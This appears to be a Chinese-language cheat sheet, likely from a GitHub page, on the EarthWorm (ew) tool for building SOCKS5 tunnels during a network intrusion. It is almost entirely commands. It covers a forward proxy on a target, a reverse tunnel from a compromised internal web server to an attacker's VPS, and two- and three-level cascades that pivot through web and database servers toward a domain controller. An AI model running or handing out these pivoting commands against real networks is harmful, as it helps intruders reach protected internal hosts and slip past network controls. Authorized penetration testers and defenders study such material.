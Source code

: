 正向SOCKS 5 服务器
```bash
# 适用于目标机器拥有一个外网ip的情况
ew -s ssocksd -l 888    # 假设一个端口为888的SOCKS代理

# 接下来，可以使用SocksCap64添加这个代理地址即可

```

反弹SOCKS 5 服务器
```bash
# 目标机器没有公网IP地址的情况 / 或者在内网内部用
#1.先把ew上传到公网vps中，并执行
ew -s rcsocks -l 1008 -e 888    # 含义：在公网vps上添加一个转接隧道，把1008收到的代理请求转发给888端
 
#2.然后把ew上传到web服务器(内网)，并执行
ew -s rssocks -d <公网vps_IP> -e 888

#3.然后用SocksCap64等添加代理地址为vps的ip:1008
#4.回到vps发现反弹成功，就可以通过vps的1008端口使用假设在web服务器上的SOCKS5代理服务了

```

多级级联：
Case1. lcx_tran
```bash
# 情景：vps能连接web服务器，web服务器能连接数据库服务器但是不能连接DC，数据库服务器能连接DC但是不能访问外网
# 所以，在数据库服务器建立SOCKS服务，端口转发给web服务器，我们可以直接链接web服务器

# 1.在DB服务器
ew -s ssocksd -l 9999
# 2.在vps 
ew -s lcx_tran -l 1008 -f 127.0.0.1 -g 9999

# 3.使用工具连接vps1008即可
```

Case2. lcx_listen, lcx_slave
```bash
#1. vps
ew -s lcx_listen -l 1080 -e 8888
#2. DB内网主机
ew -s ssocksd -l 9999
#3. 另一台内网主机
ew -s lcx_slave -d 192.168.0.100 -e 8888 -f 1.1.1.10 -g 9999
#4. 最后连接vps的1080端口
```


三级级联
```bash
#1. vps(192.168.0.103)
ew -s lcx_listen -l 1001 -e 113

#2.A
ew -s lcx_slave -d 192.168.0.103 -e 113 -f 1.1.1.10 -g 123

#3. B(1.1.1.10)
ew -s lcx_listen -l 123 -e 133

#4. C主机，启动SOCKS 5服务，并反弹到B主机的123端口
ew -s rssocks -d 1.1.1.10  -e 133

#5. 使用代理工具连接vps的1001

```
